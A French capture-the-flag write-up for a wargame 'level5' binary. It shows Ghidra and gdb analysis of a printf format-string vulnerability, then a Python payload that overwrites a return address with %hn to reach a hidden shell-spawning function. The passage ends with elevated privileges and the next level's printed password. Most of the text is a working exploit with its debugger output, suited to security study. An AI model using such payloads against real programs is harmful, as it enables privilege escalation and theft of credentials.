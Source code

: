 # level5

On décompile l'exécutable du répertoire avec ghidra.

On constate le meme style de faille, à savoir, "format string".
Cette fois-ci une fonction qui n'est pas appelé dans le programme parent, lance un shell.
Nous savons qu'il faut donc rediriger le programme vers cette fonction.

Nous avons donc besoin des adresses suivantes :
- l'adresse de la fonction "o"
- l'emplacement de la stack frame pour injecter notre code (faille printf)
- l'adresse pour rediriger le programme grace a la faille de printf

lançons gdb
```
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x18,%esp
   0x080484aa <+6>:	movl   $0x80485f0,(%esp)
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	movl   $0x1,(%esp)
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
```
L'adresse de la fonction "o" est "0x080484a4"

```
Starting program: /home/user/level5/level5
AAAA%x %x %x %x %x %x %x
AAAA200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520
[Inferior 1 (process 8892) exited with code 01]
```
L'endroit où nous pouvons agir sur le code est %4$x (4e stack frame).
```
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   %ebp
   0x080484c3 <+1>:	mov    %esp,%ebp
   0x080484c5 <+3>:	sub    $0x218,%esp
   0x080484cb <+9>:	mov    0x8049848,%eax
   0x080484d0 <+14>:	mov    %eax,0x8(%esp)
   0x080484d4 <+18>:	movl   $0x200,0x4(%esp)
   0x080484dc <+26>:	lea    -0x208(%ebp),%eax
   0x080484e2 <+32>:	mov    %eax,(%esp)
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    -0x208(%ebp),%eax
   0x080484f0 <+46>:	mov    %eax,(%esp)
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	movl   $0x1,(%esp)
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) b* printf
Breakpoint 1 at 0x8048380

## Nous mettons un breakpoint avant l'appel de printf.

(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level5/level5
%x

Breakpoint 1, 0xb7e78850 in printf () from /lib/i386-linux-gnu/libc.so.6
(gdb) info registers
eax            0xbffff520	-1073744608
ecx            0xb7fda003	-1208115197
edx            0xb7fd28c4	-1208145724
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff50c	0xbffff50c
ebp            0xbffff728	0xbffff728
esi            0x0	0
edi            0x0	0
eip            0xb7e78850	0xb7e78850 <printf>
eflags         0x200296	[ PF AF SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

## Nous avons l'adresse de esp, qui sera mis dans eip plus tard.

(gdb) x/wx $esp
0xbffff50c:	0x080484f8

## esp pointe vers une adresse


(gdb) x/2i 0x080484f8
0x80484f8 <n+54>:	movl   $0x1,(%esp)
0x80484ff <n+61>:	call   0x80483d0 <exit@plt>

## en inspectant nous retrouvons la suite de l'exécution du programme
```

Nous avons allons donc écraser l'adresse "0x080484f8" par l'adresse de la fonction "o" : "0x080484a4".
Et quand le programme arrivera a "0xbffff50c", le code de la fonction o sera executé.

Nous allons écrire cette adresse avec la meme technique que précedemment (%n).
Le problème est que le nombre d'espaces à inséré est conséquent.
"0x080484a4" en décimal = "134513828" - 4 (adresse).


```
python -c 'print("\x0c\xf5\xff\xbf" + "%134513824x" + "%4$hn" )' > /tmp/exploit3
cat /tmp/exploit3 - | /home/user/level5/level5
id
uid=2045(level5) gid=2045(level5) euid=2064(level6) egid=100(users) groups=2064(level6),100(users),2045(level5)
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
